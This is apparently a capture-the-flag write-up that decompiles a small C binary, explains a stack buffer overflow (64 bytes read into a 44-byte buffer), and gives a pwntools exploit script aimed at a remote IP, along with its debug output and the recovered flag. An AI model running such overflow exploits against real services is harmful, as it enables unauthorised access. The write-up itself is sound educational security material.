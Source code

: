 # A kind of magic

## IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+10h] [rbp-30h] BYREF
  unsigned int v5; // [rsp+3Ch] [rbp-4h]

  v5 = 0;
  puts("Is this a kind of magic? What is your magic?: ");
  fflush(_bss_start);
  fgets(s, 64, stdin);
  printf("You entered %s\n", s);
  printf("Your magic is: %d\n", v5);
  fflush(_bss_start);
  if ( v5 == 1337 )
  {
    puts("Whoa we got a magic man here!");
    fflush(_bss_start);
    system("cat flag.txt");
  }
  else
  {
    puts("You need to challenge the doors of time");
    fflush(_bss_start);
  }
  return 0;
}
```

## Analysis
We have a buffer of 44 bytes, but we read 64. After the buffer there is the variable v5
(IDA named it that way), that is initialized with 0 and is never written to afterwards.
But if we overflow the buffer we can write to that variable. If v5 is 1337, we have the flag.

Final script:
```py
from pwn import *
r = remote("143.198.184.186", 5000)
r.clean()
r.sendline(b'A' * 44 + p64(1337))
r.clean()
```

```
[DEBUG] Received 0x2f bytes:
    b'Is this a kind of magic? What is your magic?: \n'
[DEBUG] Received 0x4f bytes:
    00000000  59 6f 75 20  65 6e 74 65  72 65 64 20  41 41 41 41  │You │ente│red │AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  39 05 0a 59  6f 75 72 20  │AAAA│AAAA│9··Y│our │
    00000040  6d 61 67 69  63 20 69 73  3a 20 31 33  33 37 0a     │magi│c is│: 13│37·│
    0000004f
[DEBUG] Received 0x54 bytes:
    b'flag{i_hope_its_still_cool_to_use_1337_for_no_reason}\n'
    b'Whoa we got a magic man here!\n'
```

Final flag: `flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`